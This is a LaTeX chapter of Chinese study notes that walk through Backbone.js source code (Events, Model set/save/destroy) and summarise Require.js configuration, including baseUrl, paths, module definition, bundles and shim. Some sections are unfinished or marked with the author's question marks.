\chapter{JavaScript Libraries}  


\renewcommand\lstlistingname{Backbone}

%   \section{Backbone.js}
        这是一个轻量级的MVP框架.分析一下源码.

        \subsection{加载}
        
        \begin{lstlisting}
(function(root, factory) {

  // Set up Backbone appropriately for the environment. Start with AMD.
  if (typeof define === 'function' && define.amd) {
    define(['underscore', 'jquery', 'exports'], function(_, $, exports) {
      // Export global even in AMD case in case this script is loaded with
      // others that may still expect a global Backbone.
      root.Backbone = factory(root, exports, _, $);
    });

  // Next for Node.js or CommonJS. jQuery may not be needed as a module.
  } else if (typeof exports !== 'undefined') {
    var _ = require('underscore');
    factory(root, exports, _);

  // Finally, as a browser global.
  } else {
    root.Backbone = factory(root, {}, root._, (root.jQuery || root.Zepto || root.ender || root.$));
  }

}(this, function(root, Backbone, _, $) {
    ...
}));
        \end{lstlisting}

    在这段代码中,定义的匿名函数是用来在各种不同的情况下加载加载Backbone. 在支持AMD的情况,在Node.js,在browser中。factory这个函数才是定义Backbone的地方。接着让我们看看factory函数。


    在factory函数的开始,是一些基本的设置,如版本,引用一些常用的方法,解决冲突的noConfilict。



    \begin{lstlisting}
  // Initial Setup
  // -------------

  // Save the previous value of the `Backbone` variable, so that it can be
  // restored later on, if `noConflict` is used.
  var previousBackbone = root.Backbone;

  // Create local references to array methods we'll want to use later.
  var array = [];
  var push = array.push;
  var slice = array.slice;
  var splice = array.splice;

  // Current version of the library. Keep in sync with `package.json`.
  Backbone.VERSION = '1.1.2';

  // For Backbone's purposes, jQuery, Zepto, Ender, or My Library (kidding) owns
  // the `$` variable.
  Backbone.$ = $;

  // Runs Backbone.js in *noConflict* mode, returning the `Backbone` variable
  // to its previous owner. Returns a reference to this Backbone object.
  Backbone.noConflict = function() {
    root.Backbone = previousBackbone;
    return this;
  };
    \end{lstlisting}


    再继续,就是Backbone的几个重要的模块了。Event,Model,Collection和View。

    \subsection{Event}
    Event模块有几个很常用的方法,on, once, off, trigger. 他们都使用了一个方法eventApi。我们先来看这个方法,然后再去理解上面说到的这些方法。这个方法是用来将key-value形式的name和listener分别调用对应API。或者是空格分割的多个name。如果上述两种情况存在,就返回false,如果什么都没有做,则返回true。

    \begin{lstlisting}
  // Implement fancy features of the Events API such as multiple event
  // names `"change blur"` and jQuery-style event maps `{change: action}`
  // in terms of the existing API.
  var eventsApi = function(obj, action, name, rest) {
    if (!name) return true;

    // Handle event maps.
    if (typeof name === 'object') {
      for (var key in name) {
        obj[action].apply(obj, [key, name[key]].concat(rest));
      }
      return false;
    }

    // Handle space separated event names.
    if (eventSplitter.test(name)) {
      var names = name.split(eventSplitter);
      for (var i = 0, l = names.length; i < l; i++) {
        obj[action].apply(obj, [names[i]].concat(rest));
      }
      return false;
    }

    return true;
  };
    \end{lstlisting}

  \subsection{Model}
  这里,在第四行,给每个Model定义了一个唯一ID。第九行,将属性通过set方法赋值给model。最后,调用initialize方法,这个方法在定义自己的Model的时候可以重写,其他的行暂时不去管它,因为我现在也不知道作用。
  \begin{lstlisting}
  var Model = Backbone.Model = function(attributes, options) {
    var attrs = attributes || {};
    options || (options = {});
    this.cid = _.uniqueId('c');
    this.attributes = {};
    if (options.collection) this.collection = options.collection;
    if (options.parse) attrs = this.parse(attrs, options) || {};
    attrs = _.defaults({}, attrs, _.result(this, 'defaults'));
    this.set(attrs, options);
    this.changed = {};
    this.initialize.apply(this, arguments);
  };
  \end{lstlisting}

  接下来,重点看看set方法。
  \begin{lstlisting}
    // Set a hash of model attributes on the object, firing `"change"`. This is
    // the core primitive operation of a model, updating the data and notifying
    // anyone who needs to know about the change in state. The heart of the beast.
    set: function(key, val, options) {
      var attr, attrs, unset, changes, silent, changing, prev, current;
      if (key == null) return this;

      // Handle both `"key", value` and `{key: value}` -style arguments.
      if (typeof key === 'object') {
        attrs = key;
        options = val;
      } else {
        (attrs = {})[key] = val;
      }

      options || (options = {});
  \end{lstlisting}
  这一段,是对key,value和{key:value}情况的处理,如果是后一种情况,那么第二个参数val引用的就是实际上的options,所以这个地方需要重新赋值一下,最后如果options是空,就给他一个空对象。

  \begin{lstlisting}
      // Run validation.
      if (!this._validate(attrs, options)) return false;
  \end{lstlisting}

  如果需要验证,进行验证,失败了的话直接跳出方法。下面是这个方法最复杂的逻辑部分了。在下面开始的部分,会将this.\_changing设为true,然后在方法的最后,将this.\_changing设为false。并且在改变值之前,将她赋值为局部变量changing.这么做的原因是设定一个flag,用来表示这是set方法最开始进入的,还是在调用set方法时,因为一些事件啊,什么的,触发的第二次,第三次进入set。因为如果是第一次进入set,就将原来的attributes保存在this.\_previousAttributes中,并且将this.changed清空。用来保存将要发生改变了的attributes的名字。

  \begin{lstlisting}

      // Extract attributes and options.
      unset           = options.unset;
      silent          = options.silent;
      changes         = [];
      changing        = this._changing;
      this._changing  = true;

      if (!changing) {
        this._previousAttributes = _.clone(this.attributes);
        this.changed = {};
      }

  \end{lstlisting}
  下面的代码对于第一次进入,第二次进入set都是相同的逻辑
  \begin{lstlisting}
      current = this.attributes, prev = this._previousAttributes;

  \end{lstlisting}
  这里,局部变量current保存当前this.attributes,局部变量prev保存的是第一次调用set前的attributes的值。
  \begin{lstlisting}
      // Check for changes of `id`.
      if (this.idAttribute in attrs) this.id = attrs[this.idAttribute];
  \end{lstlisting}
  首先改变id的值,这一步目前我还不知道是为啥。留在后面来更行。

  \begin{lstlisting}
      // For each `set` attribute, update or delete the current value.
      for (attr in attrs) {
        val = attrs[attr];
        if (!_.isEqual(current[attr], val)) changes.push(attr);
        if (!_.isEqual(prev[attr], val)) {
          this.changed[attr] = val;
        } else {
          delete this.changed[attr];
        }
        unset ? delete current[attr] : current[attr] = val;
      }
  \end{lstlisting}

  在这里,如果val和当前值比发生变化,就加入到局部变量changes这个数组中,如果和pre比起来发生变化,就加入到this.changed中,相同的话,就将她从this.changed中删除掉。这里有可能是第一次set将值改变了,第二次set又将值改回来了,这个时候就需要从this.changed中删除掉。最后,如果option中带有unset标志,就删除这个值,否则,修改这个值。

  接下来就是属性修改之后的事件的触发了。
 
  \begin{lstlisting}
      // Trigger all relevant attribute changes.
      if (!silent) {
        if (changes.length) this._pending = options;
        for (var i = 0, l = changes.length; i < l; i++) {
          this.trigger('change:' + changes[i], this, current[changes[i]], options);
        }
      }
  \end{lstlisting}
  如果需要触发事件,那么就出发每个值发生改变了属性的对应事件。
  \begin{lstlisting}
      // You might be wondering why there's a `while` loop here. Changes can
      // be recursively nested within `"change"` events.
      if (changing) return this;
  \end{lstlisting}
  到这一步,如果不是第一次调用set,他们的changing都会是true,到此这里为止。

  而如果是第一次调用set,执行下面的代码。来触发change事件,这里之所以用while,是因为在change事件中,可能又会有属性发生变法,需要再次触发change事件。最后充值\_pending和\_changing。
  \begin{lstlisting}
      if (!silent) {
        while (this._pending) {
          options = this._pending;
          this._pending = false;
          this.trigger('change', this, options);
        }
      }
      this._pending = false;
      this._changing = false;
      return this;
    },

  \end{lstlisting}

  接下来的两个方法很好理解,只是对上面的set方法的调用,并设定好unset,value设置为undefined,这里注意的void 0,这个会在另外一个部分来解释为什么void 0的值是undefined,这样做的一个更好的原因是void 0肯定是undefined,但是undefined不是关键字,可以定义一个变量叫做undefined。

  \begin{lstlisting}
    // Remove an attribute from the model, firing `"change"`. `unset` is a noop
    // if the attribute doesn't exist.
    unset: function(attr, options) {
      return this.set(attr, void 0, _.extend({}, options, {unset: true}));
    },

    // Clear all attributes on the model, firing `"change"`.
    clear: function(options) {
      var attrs = {};
      for (var key in this.attributes) attrs[key] = void 0;
      return this.set(attrs, _.extend({}, options, {unset: true}));
    },

  \end{lstlisting}

  接下来是一个很有用的方法,判断那些属性发生变化,这样可判断view的那部分需要更新,那部分数据需要push到sever上。
  如果没有传入参数,那么就直接返回this.changed的一个克隆或者false。

  如果传入了diff,那就返回Model和diff中不同的属性。
  \begin{lstlisting}
    // Return an object containing all the attributes that have changed, or
    // false if there are no changed attributes. Useful for determining what
    // parts of a view need to be updated and/or what attributes need to be
    // persisted to the server. Unset attributes will be set to undefined.
    // You can also pass an attributes object to diff against the model,
    // determining if there *would be* a change.
    changedAttributes: function(diff) {
      if (!diff) return this.hasChanged() ? _.clone(this.changed) : false;
      var val, changed = false;
      var old = this._changing ? this._previousAttributes : this.attributes;
      for (var attr in diff) {
        if (_.isEqual(old[attr], (val = diff[attr]))) continue;
        (changed || (changed = {}))[attr] = val;
      }
      return changed;
    },
  \end{lstlisting}

  接下来,是重要的方法,fetch,save。这两个方法会调用Restful接口。

  首先处理的是key, value和{key: value}的情况。

  \begin{lstlisting}
    // Set a hash of model attributes, and sync the model to the server.
    // If the server returns an attributes hash that differs, the model's
    // state will be `set` again.
    save: function(key, val, options) {
      var attrs, method, xhr, attributes = this.attributes;

      // Handle both `"key", value` and `{key: value}` -style arguments.
      if (key == null || typeof key === 'object') {
        attrs = key;
        options = val;
      } else {
        (attrs = {})[key] = val;
      }
  \end{lstlisting}

  \begin{lstlisting}
      options = _.extend({validate: true}, options);

      // If we're not waiting and attributes exist, save acts as
      // `set(attr).save(null, opts)` with validation. Otherwise, check if
      // the model will be valid when the attributes, if any, are set.
      if (attrs && !options.wait) {
        if (!this.set(attrs, options)) return false;
      } else {
        if (!this._validate(attrs, options)) return false;
      }

      // Set temporary attributes if `{wait: true}`.
      if (attrs && options.wait) {
        this.attributes = _.extend({}, attributes, attrs);
      }

      // After a successful server-side save, the client is (optionally)
      // updated with the server-side state.
      if (options.parse === void 0) options.parse = true;
      var model = this;
      var success = options.success;
      options.success = function(resp) {
        // Ensure attributes are restored during synchronous saves.
        model.attributes = attributes;
        var serverAttrs = model.parse(resp, options);
        if (options.wait) serverAttrs = _.extend(attrs || {}, serverAttrs);
        if (_.isObject(serverAttrs) && !model.set(serverAttrs, options)) {
          return false;
        }
        if (success) success(model, resp, options);
        model.trigger('sync', model, resp, options);
      };
      wrapError(this, options);

      method = this.isNew() ? 'create' : (options.patch ? 'patch' : 'update');
      if (method === 'patch') options.attrs = attrs;
      xhr = this.sync(method, this, options);

      // Restore attributes.
      if (attrs && options.wait) this.attributes = attributes;

      return xhr;
    },
  \end{lstlisting}

  \begin{lstlisting}
    // Destroy this model on the server if it was already persisted.
    // Optimistically removes the model from its collection, if it has one.
    // If `wait: true` is passed, waits for the server to respond before removal.
    destroy: function(options) {
      options = options ? _.clone(options) : {};
      var model = this;
      var success = options.success;

      var destroy = function() {
        model.trigger('destroy', model, model.collection, options);
      };

      options.success = function(resp) {
        if (options.wait || model.isNew()) destroy();
        if (success) success(model, resp, options);
        if (!model.isNew()) model.trigger('sync', model, resp, options);
      };

      if (this.isNew()) {
        options.success();
        return false;
      }
      wrapError(this, options);

      var xhr = this.sync('delete', this, options);
      if (!options.wait) destroy();
      return xhr;
    },
  \end{lstlisting}

  下面是Collection的源码。Model表示的是数据库的一行数据,而Collection表示的则是整个表,或者多行的数据。
  \begin{lstlisting} 

  \end{lstlisting}
  

\renewcommand\lstlistingname{requireJS}

\section{Require.js}
Require.js的目的是为了让我门编写模块化的代码,他遵循AMD规范。

项目的目录结构
\renewcommand{\labelitemi}{$\triangleright$}
\renewcommand{\labelitemii}{$\triangleright$}
\renewcommand{\labelitemiii}{$\triangleright$}
\renewcommand{\labelitemiv}{$\triangleright$}
\begin{itemize}
\item project-directory/
	\begin{itemize}
	\item project.html
	\item scripts/
		\begin{itemize}
		\item main.js
		\item require.js
		\item helper/
			\begin{itemize}
			\item util.js
			\end{itemize}
		\end{itemize}			
	\end{itemize}
\end{itemize}

\begin{HTML5}[project.html]
<!DOCTYPE html>
<html>
    <head>
        <title>My Sample Project</title>
        <!-- data-main attribute tells require.js to load
             scripts/main.js after require.js loads. -->
        <script data-main="scripts/main" src="scripts/require.js"></script>
    </head>
    <body>
        <h1>My Sample Project</h1>
    </body>
</html>
\end{HTML5}
可以将script tag放在body的结尾,这样require.js的加载就不会block页面的DOM的渲染了。如果浏览器支持,也可使用script标签的async属性。

\begin{JavaScript}[main.js 程序的入口]
require(["helper/util"], function(util) {
    //This function is called when scripts/helper/util.js is loaded.
    //If util.js calls define(), then this function is not fired until
    //util's dependencies have loaded, and the util argument will hold
    //the module value for "helper/util".
});
\end{JavaScript}

\subsection{加载}

\subsubsection{data-main Entry Point}

\begin{HTML5}[require.js会inject一个异步的script标签来加载main.js]
<!--when require.js loads it will inject another script tag
    (with async attribute) for scripts/main.js-->
<script data-main="scripts/main" src="scripts/require.js"></script>
\end{HTML5}

\begin{HTML5}[由于main是异步加载的,不能假设这个页面引用的其他script标签在main后执行]
<script data-main="scripts/main" src="scripts/require.js"></script>
<script src="scripts/other.js"></script>

// main.js
require.config({
    paths: {
        foo: 'libs/foo-1.1.3'
    }
});

// other.js
// This code might be called before the require.config() in main.js
// has executed. When that happens, require.js will attempt to
// load 'scripts/foo.js' instead of 'scripts/libs/foo-1.1.3.js'
require(['foo'], function(foo) {

});
\end{HTML5}

data-main一般用于但入口的应用。如果想使用require()。最好使用下面的方式
\begin{HTML5}
<script src="scripts/require.js"></script>
<script>
require(['scripts/config'], function() {
    // Configuration loaded now, safe to do other require calls
    // that depend on that config.
    require(['foo'], function(foo) {

    });
});
</script>
\end{HTML5}

\subsubsection{config}

\begin{HTML5}[在top-level的html页面,或者top-level的没有定义模块的script文件中。配置对象可以像下面的方式来传入]
<script src="scripts/require.js"></script>
<script>
  require.config({
    baseUrl: "/another/path",
    paths: {
        "some": "some/v1.0"
    },
    waitSeconds: 15
  });
  require( ["some/module", "my/module", "a.js", "b.js"],
    function(someModule,    myModule) {
        //This function will be called when all the dependencies
        //listed above are loaded. Note that this function could
        //be called before the page is loaded.
        //This callback is optional.
    }
  );
</script>
\end{HTML5}

You may also call require.config from your data-main Entry Point, but be aware that the data-main script is loaded asynchronously. Avoid other entry point scripts which wrongly assume that data-main and its require.config will always execute prior to their script loading.


\begin{HTML5}[也可以先于加载require.js之前定义一个全局的require配置文件]
<script>
    var require = {
        deps: ["some/module1", "my/module2", "a.js", "b.js"],
        callback: function(module1, module2) {
            //This function will be called when all the dependencies
            //listed above in deps are loaded. Note that this
            //function could be called before the page is loaded.
            //This callback is optional.
        }
    };
</script>
<script src="scripts/require.js"></script>
\end{HTML5}

最好使用\lstinline$var require = {...}$,而不是\lstinline$window.require = {...}$。在IE中的行为不正确。


requirejs假设所有的依赖都是script,所以moduleID不需要后缀.js。requirejs会自动补上.js将moduleID转换为path。

当不想按照baseUrl + path的方式来查找module的话,可以按下面的方式
\begin{itemize}
\item 以.js结尾
\item 以"/"开始
\item 包含URL协议,比如"http:"或者"https:"
\end{itemize}

推荐包结构:
\begin{itemize}
\item www/
	\begin{itemize}
	\item index.html
	\item js/
		\begin{itemize}
		\item app/
			\begin{itemize}
			\item sub.js
			\end{itemize}
		\item lib/
			\begin{itemize}
			\item jquery.js
			\item canvas.js
			\end{itemize}	
		\item app.js
		\item require.js						
		\end{itemize}
	\end{itemize}
\end{itemize}


\begin{HTML5}[index.html中]
<script data-main="js/app.js" src="js/require.js"></script>
\end{HTML5}

\begin{JavaScript}[app.js]
requirejs.config({
    //By default load any module IDs from js/lib
    baseUrl: 'js/lib',
    //except, if the module ID starts with "app",
    //load it from the js/app directory. paths
    //config is relative to the baseUrl, and
    //never includes a ".js" extension since
    //the paths config could be for a directory.
    paths: {
        app: '../app'
    }
});

// Start the main app logic.
requirejs(['jquery', 'canvas', 'app/sub'],
function   ($,        canvas,   sub) {
    //jQuery, canvas and the app/sub module are all
    //loaded and can be used here now.
});
\end{JavaScript}

%$

\subsection{BaseUrl}
Require.js根据BaseUrl来加载所有的js文件。

一般来说,baseUrl被设定和data-main属性中的script相同的目录。require.js会从data-main中设定的script开始加载。
\begin{HTML5}
<!--This sets the baseUrl to the "scripts" directory, and
    loads a script that will have a module ID of 'main'-->
<script data-main="scripts/main.js" src="scripts/require.js"></script>
\end{HTML5}

\begin{itemize}
\item 对于BaseUrl,一般来说,他是data-main属性引用的文件所在的目录,在上面的例子中,目录为scripts。
\item 同时,我们也可以在config中显示的指定,如果我们在config中指定了,将不再使用data-main属性的目录了。
\item 如果既没有main-data属性,也没有在config中指定,那么BaseUrl将是当前运行require.js的HTML文件所在的目录。
\end{itemize}


而在下面的三种情况下,Require.js不会采用baseUrl + path的方式来查找js文件。
\begin{itemize}
\item 以".js"结束的;
\item 以"/"开头的;
\item 以协议头,如"http:"开头的。
\end{itemize}


The baseUrl can be a URL on a different domain as the page that will load require.js. RequireJS script loading works across domains. 

The only restriction is on text content loaded by text! plugins: those paths should be on the same domain as the page, at least during development. The optimization tool will inline text! plugin resources so after using the optimization tool, you can use resources that reference text! plugin resources from another domain. ???


\subsection{BaseUrl + path}

path用来mapping在baseUrl下不能直接找到的module名字。一般和baseUrl配合使用。在下面的配置中,如果我们查找some/module。require.js会查找/another/path/some/v1.0/module.js。


\begin{HTML5}
<script src="scripts/require.js"></script>
<script>
  require.config({
    baseUrl: "/another/path",
    paths: {
        "some": "some/v1.0"
    },
    waitSeconds: 15
  });
  require( ["some/module", "my/module", "a.js", "b.js"],
    function(someModule,    myModule) {
        //This function will be called when all the dependencies
        //listed above are loaded. Note that this function could
        //be called before the page is loaded.
        //This callback is optional.
    }
  );
</script>
\end{HTML5}

而在下面的三种情况下,Require.js不会采用BaseUrl + path的方式来查找js文件。
\begin{enumerate}
\item 以".js"结束的;
\item 以"/"开头的;
\item 以协议头,如"http:"开头的。
\end{enumerate}

上面的例子中的a.js和b.js都会和从上面的html的相同的目录中读取。



??(这里应该是上面的some既可以做为路径的一部分,又可以直接作为module名字。)
The path that is used for a module name should not include an extension, since the path mapping could be for a directory. The path mapping code will automatically add the .js extension when mapping the module name to a path. 

 If require.toUrl() is used, it will add the appropriate extension, if it is for something like a text template.
 
\subsubsection{require.toUrl}

\subsubsection{path fallback}


\subsection{定义模块}

\subsubsection{JavaScript Module Pattern}

js模块模式。

基础

匿名闭包,定义一个立即执行的匿名函数,那么在这个匿名函数中的代码都在一个闭包中,在整个应用的生命周期中,提供了私有性。


\begin{JavaScript}[有没有括号是函数声明和函数表达式的区别]
(function () {
	// ... all vars and functions are in this scope only
	// still maintains access to all globals
}());
\end{JavaScript}

全局引入,通过给匿名函数传入参数的方式来引入全局变量,可以保持良好的代码风格,这样就不需要直接在匿名函数中使用全局变量。

\begin{JavaScript}
(function ($, YAHOO) {
	// now have access to globals jQuery (as $) and YAHOO in this code
}(jQuery, YAHOO));
\end{JavaScript}

模块导出,通过匿名函数的返回值来导出模块。

\begin{JavaScript}
var MODULE = (function () {
	var my = {},
		privateVariable = 1;

	function privateMethod() {
		// ...
	}

	my.moduleProperty = 1;
	my.moduleMethod = function () {
		// ...
	};

	return my;
}());
\end{JavaScript}

进阶

增强(augmentation),通过导入模块,然后在匿名函数中添加属性,这样就可以将module的代码分割到不同的文件中。

\begin{JavaScript}[var不是必须的,这样写是为了保持统一]
var MODULE = (function (my) {
	my.anotherMethod = function () {
		// added method...
	};

	return my;
}(MODULE));
\end{JavaScript}

松增强(loose augmentation),在第一次请求module的时候需要初始化module,augmentation发生在第二次。js的script可以异步加载。为了让multi-part的module可以按任意顺序加载,使用下面的结构来加载,这样多个文件就可以并行加载:

\begin{JavaScript}[这个结构下,var是必须的]
var MODULE = (function (my) {
	// add capabilities...

	return my;
}(MODULE || {}));
\end{JavaScript}


紧加载(Tight Augmentation),loose augmentation不能够安全的override module的properties,也不能在初始化阶段使用其他文件的module properties(但是可以在初始化之后的运行时这么做)。

\begin{JavaScript}[保留一个原始方法的引用的方式来override方法]
var MODULE = (function (my) {
	var old_moduleMethod = my.moduleMethod;

	my.moduleMethod = function () {
		// method override, has access to old through old_moduleMethod...
	};

	return my;
}(MODULE));
\end{JavaScript}
克隆和继承(Cloning \& Inheritance)

\begin{JavaScript}
var MODULE_TWO = (function (old) {
	var my = {},
		key;

	for (key in old) {
		if (old.hasOwnProperty(key)) {
			my[key] = old[key];
		}
	}

	var super_moduleMethod = old.moduleMethod;
	my.moduleMethod = function () {
		// override method on the clone, access to super through super_moduleMethod
	};

	return my;
}(MODULE));
\end{JavaScript}


跨文件私有状态(Cross File Private State)

\begin{JavaScript}
var MODULE = (function (my) {
	var _private = my._private = my._private || {},
		_seal = my._seal = my._seal || function () {
			delete my._private;
			delete my._seal;
			delete my._unseal;
		},
		_unseal = my._unseal = my._unseal || function () {
			my._private = _private;
			my._seal = _seal;
			my._unseal = _unseal;
		};

	// permanent access to _private, _seal, and _unseal

	return my;
}(MODULE || {}));
\end{JavaScript}


当某个文件设定好\lstinline$_private$之后,其他的文件马上都可以使用。一旦module完成加载,应该调用\lstinline$_unseal()$方法,这样可以阻止外面访问\lstinline$_private$。如果想要在augment这个module,应该在augment之前先通过某个文件的内部方法调用\lstinline$_unseal$,然后在其之后调用\lstinline$_seal$方法。	


子模块(Sub-modules)

\begin{JavaScript}
MODULE.sub = (function () {
	var my = {};
	// ...

	return my;
}());
\end{JavaScript}

\subsubsection{简单模块的定义}

\begin{JavaScript}[如果模块没有依赖,可以这样定义]
//Inside file my/shirt.js:
define({
    color: "black",
    size: "unisize"
});
\end{JavaScript}

\begin{JavaScript}[虽然没有依赖,但是需要做一些setup的工作,可以这样定义]
//my/shirt.js now does setup work
//before returning its module definition.
define(function () {
    //Do setup work here

    return {
        color: "black",
        size: "unisize"
    }
});
\end{JavaScript}

\begin{JavaScript}[如果有依赖,第一个参数是依赖的module的数组,函数将会按相同的顺序传入module来调用]
//my/shirt.js now has some dependencies, a cart and inventory
//module in the same directory as shirt.js
define(["./cart", "./inventory"], function(cart, inventory) {
        //return an object to define the "my/shirt" module.
        return {
            color: "blue",
            size: "large",
            addToCart: function() {
                inventory.decrement(this);
                cart.add(this);
            }
        }
    }
);
\end{JavaScript}

\begin{JavaScript}[任何有效的函数返回值都可以返回]
//A module definition inside foo/title.js. It uses
//my/cart and my/inventory modules from before,
//but since foo/title.js is in a different directory than
//the "my" modules, it uses the "my" in the module dependency
//name to find them. The "my" part of the name can be mapped
//to any directory, but by default, it is assumed to be a
//sibling to the "foo" directory.
define(["my/cart", "my/inventory"],
    function(cart, inventory) {
        //return a function to define "foo/title".
        //It gets or sets the window title.
        return function(title) {
            return title ? (window.title = title) :
                   inventory.storeName + ' ' + cart.name;
        }
    }
);
\end{JavaScript}


\begin{JavaScript}[定义module的名字,一般优化工具来做这个事,自己不应该这么做]
    //Explicitly defines the "foo/title" module:
    define("foo/title",
        ["my/cart", "my/inventory"],
        function(cart, inventory) {
            //Define foo/title object in here.
       }
    );
\end{JavaScript}

\begin{JavaScript}[取得Module对应的URL]
define(["require"], function(require) {
    var cssUrl = require.toUrl("./style.css");
});
\end{JavaScript}

\begin{JavaScript}[控制台取得Module]
require("module/name").callSomeFunction()
\end{JavaScript}

a依赖b,b依赖a,这是在b中会取得一个a的依赖为undefined。b可以在随后通过require()方法来取得a的引用
\begin{JavaScript}[循环依赖时]
//Inside b.js:
define(["require", "a"],
    function(require, a) {
        //"a" in this case will be null if "a" also asked for "b",
        //a circular dependency.
        return function(title) {
            return require("a").doSomething();
        }
    }
);
\end{JavaScript}

使用commonjs风格的exports的话,我们可以取得一个真正的a的引用,但是在b返回值之前,我们是不能够使用a的方法的。

\begin{JavaScript}
//Inside b.js:
define(function(require, exports, module) {
    //If "a" has used exports, then we have a real
    //object reference here. However, we cannot use
    //any of "a"'s properties until after "b" returns a value.
    var a = require("a");

    exports.foo = function () {
        return a.bar();
    };
});
\end{JavaScript}

\begin{JavaScript}
//Inside b.js:
define(['a', 'exports'], function(a, exports) {
    //If "a" has used exports, then we have a real
    //object reference here. However, we cannot use
    //any of "a"'s properties until after "b" returns a value.

    exports.foo = function () {
        return a.bar();
    };
});
\end{JavaScript}



??? 相对module名好像是先相对于module明来说的,然后再将module名转换为对应的Path


\subsection{配置require}

\begin{JavaScript}[在top-level HTML或者没有模块定义的script文件中]
<script src="scripts/require.js"></script>
<script>
  require.config({
    baseUrl: "/another/path",
    paths: {
        "some": "some/v1.0"
    },
    waitSeconds: 15
  });
  require( ["some/module", "my/module", "a.js", "b.js"],
    function(someModule,    myModule) {
        //This function will be called when all the dependencies
        //listed above are loaded. Note that this function could
        //be called before the page is loaded.
        //This callback is optional.
    }
  );
</script>
\end{JavaScript}

也可以使用data-main Entry Point来读取配置,不过要注意这样是异步加载的,要避免其他入口程序在这个配置之前执行。

\begin{JavaScript}[也可以在加载requireJS之前先定义一个require对象]
<script>
    var require = {
        deps: ["some/module1", "my/module2", "a.js", "b.js"],
        callback: function(module1, module2) {
            //This function will be called when all the dependencies
            //listed above in deps are loaded. Note that this
            //function could be called before the page is loaded.
            //This callback is optional.
        }
    };
</script>
<script src="scripts/require.js"></script>
\end{JavaScript}

\subsubsection{baseUrl} 所有模块查找的root目录。

下面的情况下不会使用baseUrl,这个时候就如同文档中其他地方的url是一样:
\begin{itemize}
\item 以/开头
\item 以.js结尾
\item 包含网络协议头,如"http:"或者"https:"
\end{itemize}

这里涉及到绝对路径和相对路径【http://stackoverflow.com/questions/10659459/starting-with-a-forward-slash-in-html-for-href】

如果没有显示的设置baseUrl,则默认为当前html所在的目录,如果有main-data属性,则是这里设定的目录。

baseUrl可以和当前html处于不同的domain。requirejs可以跨domain加载脚本。唯一的限制是如果使用text! plugins。 那么就得和当前html处于同一个domain。

The optimization tool will inline text! plugin resources so after using the optimization tool, you can use resources that reference text! plugin resources from another domain.

\subsubsection{path}
path mappings for module names not found directly under baseUrl.

path用于mapping在baseUrl下找不到的module名字, 比如上面的some/module。

path不应该包含扩展名,因为路径可能用来匹配目录(???)。The path mapping code will automatically add the .js extension when mapping the module name to a path. 

\subsubsection{bundle}
Introduced in RequireJS 2.1.10: allows configuring multiple module IDs to be found in another script.

\begin{JavaScript}
requirejs.config({
    bundles: {
        'primary': ['main', 'util', 'text', 'text!template.html'],
        'secondary': ['text!secondary.html']
    }
});

require(['util', 'text'], function(util, text) {
    //The script for module ID 'primary' was loaded,
    //and that script included the define()'d
    //modules for 'util' and 'text'
});
\end{JavaScript}

That config states: modules 'main', 'util', 'text' and 'text!template.html' will be found by loading module ID 'primary'. Module 'text!secondary.html' can be found by loading module ID 'secondary'.


This only sets up where to find a module inside a script that has multiple define()'d modules in it. It does not automatically bind those modules to the bundle's module ID. The bundle's module ID is just used for locating the set of modules.

Something similar is possible with paths config, but it is much wordier, and the paths config route does not allow loader plugin resource IDs in its configuration, since the paths config values are path segments, not IDs.


bundles config is useful if doing a build and that build target was not an existing module ID, or if you have loader plugin resources in built JS files that should not be loaded by the loader plugin. Note that the keys and values are module IDs, not path segments. They are absolute module IDs, not a module ID prefix like paths config or map config. Also, bundle config is different from map config in that map config is a one-to-one module ID relationship, where bundle config is for pointing multiple module IDs to a bundle's module ID.


\subsubsection{shim}
Here is an example. It requires RequireJS 2.1.0+, and assumes backbone.js, underscore.js and jquery.js have been installed in the baseUrl directory. If not, then you may need to set a paths config for them:
\begin{JavaScript}[假设jquery.js, backbone.js,underscore.js都在basUrl的目录里]
requirejs.config({
    //Remember: only use shim config for non-AMD scripts,
    //scripts that do not already call define(). The shim
    //config will not work correctly if used on AMD scripts,
    //in particular, the exports and init config will not
    //be triggered, and the deps config will be confusing
    //for those cases.
    shim: {
        'backbone': {
            //These script dependencies should be loaded before loading
            //backbone.js
            deps: ['underscore', 'jquery'],
            //Once loaded, use the global 'Backbone' as the
            //module value.
            exports: 'Backbone'
        },
        'underscore': {
            exports: '_'
        },
        'foo': {
            deps: ['bar'],
            exports: 'Foo',
            init: function (bar) {
                //Using a function allows you to call noConflict for
                //libraries that support it, and do other cleanup.
                //However, plugins for those libraries may still want
                //a global. "this" for the function will be the global
                //object. The dependencies will be passed in as
                //function arguments. If this function returns a value,
                //then that value is used as the module export value
                //instead of the object found via the 'exports' string.
                //Note: jQuery registers as an AMD module via define(),
                //so this will not work for jQuery. See notes section
                //below for an approach for jQuery.
                return this.Foo.noConflict();
            }
        }
    }
});

//Then, later in a separate file, call it 'MyModel.js', a module is
//defined, specifying 'backbone' as a dependency. RequireJS will use
//the shim config to properly load 'backbone' and give a local
//reference to this module. The global Backbone will still exist on
//the page too.
define(['backbone'], function (Backbone) {
  return Backbone.Model.extend({});
});
\end{JavaScript}

For "modules" that are just jQuery or Backbone plugins that do not need to export any module value, the shim config can just be an array of dependencies:

\begin{JavaScript}
requirejs.config({
    shim: {
        'jquery.colorize': ['jquery'],
        'jquery.scroll': ['jquery'],
        'backbone.layoutmanager': ['backbone']
    }
});
\end{JavaScript}

Note however if you want to get 404 load detection in IE so that you can use paths fallbacks or errbacks, then a string exports value should be given so the loader can check if the scripts actually loaded (a return from init is not used for enforceDefine checking):

\begin{JavaScript}
requirejs.config({
    shim: {
        'jquery.colorize': {
            deps: ['jquery'],
            exports: 'jQuery.fn.colorize'
        },
        'jquery.scroll': {
            deps: ['jquery'],
            exports: 'jQuery.fn.scroll'
        },
        'backbone.layoutmanager': {
            deps: ['backbone']
            exports: 'Backbone.LayoutManager'
        }
    }
});
\end{JavaScript}


shim需要注意的内容:
\begin{itemize}
\item shim config只是配置了code的关系,为了加载使用shim config的module,需要调用require/define。设置shim不会触发code的加载。
\item Only use other "shim" modules as dependencies for shimmed scripts, or AMD libraries that have no dependencies and call define() after they also create a global (like jQuery or lodash). Otherwise, if you use an AMD module as a dependency for a shim config module, after a build, that AMD module may not be evaluated until after the shimmed code in the build executes, and an error will occur. The ultimate fix is to upgrade all the shimmed code to have optional AMD define() calls.
\end{itemize}
\item shimed的script只能依赖shim modules,或者是那些没有依赖,并且盗用define()后创建全局对象。否则如果你使用AMD module作为依赖的话,AMD module可能在你使用shimmed code的时候还没有执行。

